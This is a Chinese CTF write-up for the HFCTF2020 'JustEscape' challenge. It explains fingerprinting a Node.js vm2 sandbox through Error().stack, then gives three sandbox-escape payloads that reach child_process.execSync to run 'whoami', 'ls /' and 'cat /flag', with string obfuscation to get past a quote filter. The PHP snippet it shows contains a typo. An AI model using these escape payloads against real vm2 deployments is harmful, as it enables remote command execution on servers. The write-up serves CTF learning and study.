




# [HFCTF2020]JustEscape

## 知识点

`vm2沙盒逃逸`

## 解题

进入题目首页


发现`run.php`，有方法，进入`run.php`看一下，发现高亮源码

```php
<?php
if( array_key_exists( "code", $_GET ) && $_GET[ 'code' ] != NULL ) {
    $code = $_GET['code'];
    echo eval(code);
} else {
    highlight_file(__FILE__);
}
?>
```

尝试直接执行命令，发现不行



结合题目提示`真的是PHP吗`，还有`wrappalyze`检测出的`nodejs`，尝试`nodejs`的注入



输入`Error().stack`可以查看到错误信息，为什么用`Error().stack`

> `Error().stack`可以分为两个过程：
>
> 1. 实例化Error类
> 2. 调用stack方法
>
> 同理，`new Error().stack`也能够回显相同内容。
>
> 介绍一下`Error类`：
>    Error 对象会**捕获堆栈跟踪，详细说明实例化 Error 的代码点**，并可能提供错误的文本描述。
>    **详细说明实例化 Error 的代码点**这个功能提供了返回代码信息甚至文件信息的可能性。
> 接下来介绍`stack属性`：
>    `Error.captureStackTrace(targetObject[, constructorOpt])`方法在 targetObject 上创建一个 `.stack 属性`，当访问时返回一个表示代码中调用 Error.captureStackTrace() 的位置的字符串。
>    也就是说当我们实例化Error类并调用stack属性时，我们会得到**调用 Error.captureStackTrace() 的位置的字符串**，也就是代码的部分信息。

[参考文章](https://tyskill.github.io/posts/nodejs%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/#hfctf2020justescape)


发现是`nodejs`的`vm2`，使用`vm2沙箱逃逸的payload`

payload

1. ```js
   // payload1 -- 改自vm2-3.83版本的逃逸代码 此方法需要配合数组绕过方法，否则引号会被waf。
   try{
     Buffer.from(new Proxy({},{
       getOwnPropertyDescriptor(){
         throw f=>f.constructor("return process")();
       }
     }));
   }catch(e){
     e(()=>{}).mainModule.require("child_process").execSync("whoami").toString();
   }
   ```

2. ```js
   // payload2 -- 反引号替代引号；${}拼接字符串，引入变量
   (function (){
       TypeError[`${`${`prototyp`}e`}`][`${`${`get_pro`}cess`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return proc`}ess`}`)();
       try{
           Object.preventExtensions(Buffer.from(``)).a = 1;
       }catch(e){
           return e[`${`${`get_pro`}cess`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`ls /`).toString();
       }
   })()
   ```

   

3. ```js
   // payload3 -- 使用join拼接字符串
   (()=>{ TypeError[[`p`,`r`,`o`,`t`,`o`,`t`,`y`,`p`,`e`][`join`](``)][`a`] = f=>f[[`c`,`o`,`n`,`s`,`t`,`r`,`u`,`c`,`t`,`o`,`r`][`join`](``)]([`r`,`e`,`t`,`u`,`r`,`n`,` `,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))(); try{ Object[`preventExtensions`](Buffer[`from`](``))[`a`] = 1; }catch(e){ return e[`a`](()=>{})[`mainModule`][[`r`,`e`,`q`,`u`,`i`,`r`,`e`][`join`](``)]([`c`,`h`,`i`,`l`,`d`,`_`,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))[[`e`,`x`,`e`,`c`,`S`,`y`,`n`,`c`][`join`](``)](`cat /flag`)[`toString`](); } })()
   ```

   

   
